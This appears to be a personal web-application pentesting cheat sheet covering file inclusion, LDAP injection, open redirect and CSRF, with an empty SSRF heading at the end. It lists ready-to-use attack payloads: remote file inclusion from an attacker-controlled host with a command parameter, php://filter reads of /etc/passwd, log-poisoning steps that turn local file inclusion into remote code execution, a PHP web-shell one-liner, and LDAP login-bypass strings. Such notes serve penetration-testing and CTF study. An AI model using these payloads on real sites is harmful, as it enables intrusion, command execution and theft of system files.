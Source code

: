 ### File Inclusion

- Loads php files - look for something like `?page=index.php` try injecting a `'` or `"` if it errors out
- Normal Directory traversal will work 
- Try injecting remote sites like `http://www.google.com` or your own controlled site `/?page=http://evohaxthepla.net/test.txt&cmd=id` **_test.txt contains a php one liner_**
- look for the following in the source code: 
   - `include`
   - `require`
   - `include_once` 
   - `require_once`
- `php://filter/resource=/etc/passwd`
- `php://filter/convert.base64-encode/resource=/etc/passwd`
- LFI to RCE via Log files
   -  include a malicious payload into services log files such as Apache, SSH, etc. then request log file via LFI
      - Example, a user can include a malicious payload into an apache log file via User-Agent or other HTTP headers. In SSH, the user can inject a malicious payload in the username section. 
      - `echo '<?php echo 'whatever    ';system($_GET['cmd']);?>'` > whatever.php 

### LDAP

- Test with `)` if you'll get an error [PayloadAllthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection)
- In a post request when signing in remove the whole post body ex: `username=asd&password=asd` delete this whole data.
- `adm*))%00`
-  `admin)(cn=*))%00&password=admin`

### Open Redirect

[PayloadAllthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Open%20Redirect)
- webhook.site **_can be used to test?_**
- http and https is filtered can be bypassed by just doing `//google.com` **_check payloadallthethings for more_**

### CSRF

What to look for?
- no csrf token, no samesite attribute on the cookie
- Remove CSRF token
- SameSite=Lax prevents CSRF
- Change POST to GET
- CSRF token is not user specific 
   - Intercept CSRF thru proxy then drop it - use the intercepted CSRF token on the other account check if it works
-

### SSRF
